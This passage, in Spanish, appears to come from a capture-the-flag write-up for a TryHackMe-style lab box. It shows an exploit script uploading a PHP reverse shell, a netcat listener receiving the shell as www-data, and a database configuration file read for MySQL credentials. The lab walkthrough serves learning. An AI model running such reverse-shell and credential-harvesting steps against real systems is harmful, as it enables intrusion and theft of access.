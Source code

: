¡Así que ejecutemos el exploit!

```bash
[Terminal 1]

╰─ lanfran@parrot ❯ python3 exp.py contacttracer.thm 10.9.2.74 1337                                                                ─╯
(+) Uploading php reverse shell..
(+) File upload seems to have been successful!
(+) Now trying to trigger our shell..

(+) done!


-----------

[Terminal 2]


╰─ lanfran@parrot ❯ nc -nlvp 1337                                                                                                  ─╯
listening on [any] 1337 ...
connect to [10.9.2.74] from (UNKNOWN) [10.10.51.197] 55832
Linux lockdown 4.15.0-151-generic #157-Ubuntu SMP Fri Jul 9 23:07:57 UTC 2021 x86_64 x86_64 x86_64 GNU/Linux
 10:17:55 up 43 min,  0 users,  load average: 0.00, 0.00, 0.27
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
sh: cannot set terminal process group (993): Inappropriate ioctl for device
sh: no job control in this shell
sh-4.4$ id
id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```
¡Estamos dentro!

## Acceso inicial - Usuario

Estamos dentro, pero no podemos leer la bandera del usuario.

Así que buscando archivos interesantes, ¡encontré las credenciales de una conexión mysql!

¡Podemos usarlos para iniciar sesión en el servidor `mysql`!
```bash
www-data@lockdown:/tmp$ cat /var/www/html/classes/DBConnection.php 
<?php
class DBConnection{

    private $host = 'localhost';
    private $username = 'cts';
    private $password = 'Y[REDACTADO]E';
    private $database = 'cts_db';
    
    public $conn;
    
    public function __construct(){

        if (!isset($this->conn)) {
            
            $this->conn = new mysqli($this->host, $this->username, $this->password, $this->database);
            
            if (!$this->conn) {
                echo 'Cannot connect to database server';
                exit;
```